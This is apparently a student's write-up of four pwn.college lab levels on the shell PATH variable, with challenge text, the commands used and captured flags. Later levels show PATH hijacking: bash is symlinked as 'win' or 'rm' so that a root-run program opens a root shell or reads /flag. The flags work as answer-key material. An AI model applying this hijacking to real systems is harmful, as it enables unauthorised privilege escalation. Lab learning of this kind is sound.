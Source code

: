 # L.1 The PATH Variable
## Question
It turns out that the answer to "How does the shell find ls?" is fairly simple. There is a special shell variable, called PATH, that stores a bunch of directory paths in which the shell will search for programs corresponding to commands. If you blank out the variable, things go badly:

hacker@dojo:~$ ls
Desktop    Downloads  Pictures  Templates
Documents  Music      Public    Videos
hacker@dojo:~$ PATH=""
hacker@dojo:~$ ls
bash: ls: No such file or directory
hacker@dojo:~$
Without a PATH, bash cannot find the ls command.

In this level, you will disrupt the operation of the /challenge/run program. This program will DELETE the flag file using the rm command. However, if it can't find the rm command, the flag will not be deleted, and the challenge will give it to you! Thus, you must make it so that /challenge/run also can't find the rm command!

Keep in mind: /challenge/run will be a child process of your shell, so you must apply the concepts you learned in Shell Variables to mess with its PATH variable! If you don't succeed, and the flag gets deleted, you will need to restart the challenge to try again!
## Code
```
hacker@path~the-path-variable:~$ PATH=''
hacker@path~the-path-variable:~$ /challenge/run
Trying to remove /flag...
/challenge/run: line 4: rm: No such file or directory
The flag is still there! I might as well give it to you!
pwn.college{MhvzWJc33dzCGX9YGjU-V6WAc95.dZzNwUDLyUTN0czW}
```
## What I learnt
PATH is an important variable which helps the system find the location of a program. We can change the variable ourselves.
# L.2 Setting PATH
## Question
Okay, so things break when you blank out PATH. But what about doing something useful with PATH?

Let's explore how we would, for example, add a new directory of programs to our command repertoire. Recall that PATH stores a list of directories to find commands in and, for commands in nonstandard places, we must typically execute them via their path:

hacker@dojo:~$ ls /home/hacker/scripts
goodscript	badscript	okayscript
hacker@dojo:~$ goodscript
bash: goodscript: command not found
hacker@dojo:~$ /home/hacker/scripts/goodscript
YEAH! This is the best script!
hacker@dojo:~l
If you maintain useful scripts that you want to be able to launch by bare name, this is annoying. However, by adding directories to or replacing directories in this list, you can expose these programs to be launched using their bare name! For example:

hacker@dojo:~$ PATH=/home/hacker/scripts
hacker@dojo:~$ goodscript
YEAH! This is the best script!
hacker@dojo:~$
Let's practice. This level's /challenge/run will run the win command via its bare name, but this command exists in the /challenge/more_commands/ directory, which is not initially in the PATH. The win command is the only thing that /challenge/run needs, so you can just overwrite PATH with that one directory. Good luck!
## Code
```
hacker@path~setting-path:~$ PATH=/challenge/more_commands/
hacker@path~setting-path:~$ win
It looks like 'win' was improperly launched. Don't launch it directly; it MUST 
be launched by /challenge/run!
hacker@path~setting-path:~$ /challenge/run 
Invoking 'win'....
Congratulations! You properly set the flag and 'win' has launched!
pwn.college{Ir6IWM8GmWLckpVKL3_RpcT_eT7.dVzNyUDLyUTN0czW}
```
## What I learnt
We can change the PATH variable in a way that makes us not address a program by its full location. It is a more convenient way. 
# L.3 Adding Commands
## Question
Recall our example from the previous level:

hacker@dojo:~$ ls /home/hacker/scripts
goodscript	badscript	okayscript
hacker@dojo:~$ PATH=/home/hacker/scripts
hacker@dojo:~$ goodscript
YEAH! This is the best script!
hacker@dojo:~$
What we see here, of course, is the hacker making the shell more useful for themselves by bringing their own commands to the party. Over time, you might amass your own elegant tools. Let's start with win!

Previously, the win command that /challenge/run executed was stored in /challenge/more_commands. This time, win does not exist! Recall the final level of Chaining Commands, and make a shell script called win, add its location to the PATH, and enable /challenge/run to find it!

Hint: /challenge/run runs as root and will call win. Thus, win can simply cat the flag file. Again, the win command is the only thing that /challenge/run needs, so you can just overwrite PATH with that one directory. But remember, if you do that, your win command won't be able to find cat.

You have three options to avoid that:

Figure out where the cat program is on the filesystem. It must be in a directory that lives in the PATH variable, so you can print the variable out (refer to Shell Variables to remember how!), and go through the directories in it (recall that the different entries are separated by :), find which one has cat in it, and invoke cat by its absolute path.
Set a PATH that has the old directories plus a new entry for wherever you create win.
Use read (again, refer to Shell Variables) to read /flag. Since read is a builtin functionality of bash, it is unaffected by PATH shenanigans.
Now, go and win!
## Code
```
hacker@path~adding-commands:~$ echo $PATH
/run/challenge/bin:/run/workspace/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
hacker@path~adding-commands:~$ ln -s /usr/bin/bash ./win
hacker@path~adding-commands:~$ PATH=/home/hacker:$PATH
hacker@path~adding-commands:~$ /challenge/run
Invoking 'win'....
root@path~adding-commands:~# echo $PATH
/home/hacker:/run/challenge/bin:/run/workspace/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
root@path~adding-commands:~# touch win
root@path~adding-commands:~# cat win
root@path~adding-commands:~# cat /flag
pwn.college{AIhTvGXB98FSOEfLKBenQ4ZJyo1.dZzNyUDLyUTN0czW}
```
## What I learnt

# L.4 Hijacking Commands
## Question
Armed with your knowledge, you can now carry out some shenanigans. This challenge is almost the same as the first challenge in this module. Again, this challenge will delete the flag using the rm command. But unlike before, it will not print anything out for you.

How can you solve this? You know that rm is searched for in the directories listed in the PATH variable. You have experience creating the win command when the previous challenge needed it. What else can you create?
## Code
```
hacker@path~hijacking-commands:~$ ln -s /usr/bin/bash ./rm
hacker@path~hijacking-commands:~$ PATH=/home/hacker:$PATH
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /home/hacker/rm. Executing!
/flag: line 1: pwn.college{sfLsL-zDU7KDrFxwyI0RITHujsV.ddzNyUDLyUTN0czW}: command not found
```
## What I learnt
